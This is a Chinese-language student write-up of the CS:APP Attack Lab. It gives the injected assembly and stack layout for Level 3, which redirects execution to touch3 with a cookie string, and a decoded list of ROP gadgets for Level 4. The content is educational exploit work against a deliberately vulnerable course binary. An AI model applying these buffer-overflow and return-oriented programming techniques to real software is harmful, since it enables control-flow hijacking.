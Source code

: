 ```assembly
```

**要求：**

 程序执行完`getbuf`后，执行`touch3`，而`touch3`的参数是对应`cookie`的字符串的地址。 

**答案：**

首先将`cookie`转换为字符串（利用 `man ascii`）：`59b997fa =>  |35|39|62|39|39|37|66|61|\0` ；

编写汇编指令部分（将%rdi的值设置为字符串地址，转移控制，与Level 2类似）：

```assembly
movq  $0x5561dca8,%rdi #%rsp+48（40字节buf，8字节ret地址）
pushq $0x4018fa        #转移控制至touch3
ret
```

由于调用`hexmatch`时需在栈中划分100字节左右的空间，为避免被覆盖，字符串必须放在`ret`地址后（类似于Level 2，`ret`地址指向栈顶，用于执行输入的指令）。

最终攻击字符串见`attack3.txt`、`attack3x.txt`。

## Part 2

### Level 4

**可能用到的gadget：**

```assembly
000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	retq   
#0x40199d:90 90 c3 => nop  nop  ret

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   
#0x4019a2:48 89 c7 c3 => movq %rax,%rdi  ret

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
#0x4019ab:58 90 c3 => popq %rax  nop  ret

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   
#不可行

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq   
#不可行

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4019c2:	c3                   	retq   
#不可行

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
#0x4019c5:48 89 c7 90 c3 => movq %rax,%rdi  nop  ret

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   
```